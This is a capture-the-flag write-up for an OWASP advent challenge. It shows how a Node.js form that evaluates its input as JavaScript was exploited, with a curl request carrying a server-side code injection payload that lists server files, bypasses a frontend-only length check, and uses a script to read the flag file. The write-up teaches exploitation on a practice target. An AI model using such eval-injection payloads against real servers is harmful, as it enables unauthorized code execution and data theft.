 # Day 3. Naughty list

> The Santa has his naughty list. Can you find where it's stored?

https://naughty.owasp.si/

![naughty1.png](naughty1.png)

## Solution

The challenge is an HTML form that sends POST request with `name` and `age` as parameters. Let's be wild and press "Submit" button straight away, without any input:
![naughty2.png](naughty2.png)

The Status says "Unexpected end of input", so the backend is likely written in JavaScript. We can try different inputs, but I tried sending `name=this&age=20`, and it yielded `[object global]20` status. So, there is likely a dumb evaluation of `name` parameter as JS code.

Let 's try something like `this.process.mainModule.require('fs').readdirSync('.')` (inspired by [https://ctftime.org/writeup/6773](this writeup)). However, this gives `You won't be on Santa's nice list` status. A quick investigation revealed that `name` parameter has a limit of 20 characters.

However, we can send the same payload in the `age` parameter, because the validation is only performed on frontend. It worked:

```
$ curl -d "name=0&age=this.process.mainModule.require('fs').readdirSync('.')" https://naughty.owasp.si/
<!DOCTYPE html><html lang="en"></html><html><head><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no"><title>UserTracker</title><link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-alpha.2/css/bootstrap.min.css"></head><body style="padding: 40px;"><h1 style="text-align: center;">Your Santa's naughty or nice list candidate</h1><br><h5 style="text-align: center;">Carefully review your entry. Candidate will be added to the list soon.</h5><br><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="id">ID:</label><input class="form-control" id="id" type="number" placeholder="1" name="id" disabled value="259"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="name">Name and surname:</label><input class="form-control" id="name" type="text" placeholder="John Doe" name="name" disabled value="0"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="age">Age:</label><input class="form-control" id="age" type="text" placeholder="20" name="age" disabled value="this.process.mainModule.require('fs').readdirSync('.')"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="status">Status:</label><input class="form-control" id="status" type="text" placeholder="Naughty" name="status" disabled value="0app.js,node_modules,package-lock.json,package.json,routes,static,views"></div></div></div><br><div class="row" style="display:flex; justify-content: center; text-align: center;"><div class="col-md-3"><div class="form-group"><a class="btn btn-primary" type="button" href="?page=0&amp;pageSize=10">Go back home</a></div></div></div></body></html>
```
Note `app.js,node_modules,package-lock.json,package.json,routes,static,views` in the output. At this point, it became obvious how to get the flag and I did it.

Later this day, I weaponized the [solution](./solution.py) and made getting the flag more comfortable:

```
$ ./solution.py
> ls .
app.js
node_modules
package-lock.json
package.json
routes
static
views

> ls static
flag.txt
users.json

> cat static/flag.txt
ctf{H0m3_Al0n3}
```

## Bonus: source code

I was curious and extracted the whole application, you can find it [here](./src).

How to run:

```
npm i
node app.js
```
